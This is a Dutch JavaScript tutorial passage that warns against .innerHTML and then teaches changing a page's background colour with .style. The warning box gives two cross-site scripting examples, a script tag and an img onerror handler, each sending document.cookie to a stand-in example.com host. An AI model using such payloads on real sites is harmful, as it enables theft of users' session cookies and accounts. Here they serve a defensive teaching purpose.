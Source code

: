 ::: danger Waarschuwing
Gebruik nooit de syntax `.innerHTML`, het houd enorme **security risico's** in!

Met name **Cross-Site Scripting Attacks** (XSS). Hieronder twee voorbeelden hoe een hacker met eenvoudige code toegang krijgt tot een useraccount:

1. In dit voorbeeld bewaren we cookie info in een variabele die vervolgens kan verzonden worden naar een andere server.

```html
<script>var adr='http://example.com/xss.php?cookie=' + escape(document.cookie);</script>
```

2. In dit voorbeeld gebruiken we een ontbrekende afbeelding met een HTML atribuut om code te triggeren

```html
<img scr="http://nofile" onerror="adr='http.example.com/xss.php?'+escape(document.cookie)";>
```
:::

#### Style aanpassen

Je kan javascript gebruiken om de opmaak van iets aan te passen.

Maak het bestand **index.html** aan
```html
<!DOCTYPE html>
<html>

<head>
  <meta charset="utf-8">
  <title>Achtergrondkleur aanpassen</title>
</head>

<body id="body1">
  <form action="">
    <input type="button" value="BG-COLOR" onclick="changeBackground2()">
  </form>
  <script src="script.js"></script>
</body>

</html>
```
Maak het bestand **script.js** aan
```js
let bgcolors = ["#FF00FF", "#00FFFF", "#0000FF", "#FFFFFF", "#FF0000", "#00FF00"];
let bgcolors_tel = 0;
function changeBackground2() {
    document.getElementById("body1").style.backgroundColor = bgcolors[bgcolors_tel];
    bgcolors_tel++;
    if (bgcolors_tel == bgcolors.length) {
        bgcolors_tel = 0;
    }
}
```
* met de syntax `.style` kan je de stijl van  een element aanpassen.
